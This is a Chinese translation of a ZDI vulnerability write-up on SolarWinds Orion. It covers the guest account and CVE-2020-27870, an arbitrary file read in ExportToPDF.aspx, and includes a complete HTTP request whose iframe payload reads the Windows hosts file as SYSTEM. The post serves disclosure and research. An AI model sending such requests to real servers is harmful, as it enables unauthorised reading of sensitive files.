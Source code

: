 > 原文链接: https://www.anquanke.com//post/id/231451 


# 分析SolarWinds Orion平台的另外三个漏洞


                                阅读量   
                                **147908**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者thezdi，文章来源：thezdi.com
                                <br>原文地址：[https://www.thezdi.com/blog/2021/2/11/three-more-bugs-in-orions-belt﻿](https://www.thezdi.com/blog/2021/2/11/three-more-bugs-in-orions-belt%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01b0e8e0fe975c5cde.jpg)](https://p5.ssl.qhimg.com/t01b0e8e0fe975c5cde.jpg)



## 0x00 前言

在前一篇文章中（[原文](https://www.zerodayinitiative.com/blog/2021/1/20/three-bugs-in-orions-belt-chaining-multiple-bugs-for-unauthenticated-rce-in-the-solarwinds-orion-platform)、[译文](https://www.anquanke.com/post/id/229457)），我们演示了如何利用低权限用户来访问SolarWinds Orion平台中的某些资源，介绍了如何利用这些资源实现远程代码执行（RCE）。我们也演示了如何使用CVE-2020-10148来绕过身份认证。在本文中，我们将分析由匿名研究人员提供的其他3个漏洞，guest（访客）用户可以将这些漏洞与权限提升bug结合组合使用，发起攻击。由于这些bug比较简单，因此本文篇幅不会太长。



## 0x01 特权

在前一篇文章中，我们简要讨论了SolarWinds Orion平台中的权限。该平台中有一个预定义的角色：guest账户。默认情况下，这个账户不需要密码，也没有分配任何特权。虽然这个账户默认处于禁用状态，但在某些部署场景下，该账户可能会被启用。

[![](https://p3.ssl.qhimg.com/t012c744eaa6bace684.png)](https://p3.ssl.qhimg.com/t012c744eaa6bace684.png)



## 0x02 CVE-2020-27870：目录遍历导致任意文件读取

`/orion/ExportToPDF.aspx`可以将HTML转换为PDF，但该地址并没有检查HTML中是否包含对本地文件的引用。此外，guest用户也可以访问该资源。如果攻击者提供的HTML文件中引用了本地文件，那么就有可能在服务器上通过`SYSTEM`上下文读取任意文件。

比如，攻击者可以通过如下请求来读取服务器上的`C:\\Windows\\system32\\drivers\\etc\\hosts`文件内容：

```
POST /orion/ExportToPDF.aspx?ExportID=55475&amp;PageHTML=%3Chtml%3E%3Ciframe%20src=%22C:%5CWindows%5Csystem32%5Cdrivers%5Cetc%5Chosts%22%20width=%221000%22%20height=%221000%22%3E%3C/html%3E HTTP/1.1.  &lt;------- 
Host: 172.16.11.168:8787 
User-Agent: Mozilla/5.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Connection: keep-alive 
Origin: http://172.16.11.168:8787 
X-Requested-With: XMLHttpRequest 
Referer: http://172.16.11.168:8787/Orion/SummaryView.aspx?ViewID=1 
Content-Type: application/x-www-form-urlencoded 
Cookie: .ASPXAUTH=0660567401DF21BAAC59[...] 
```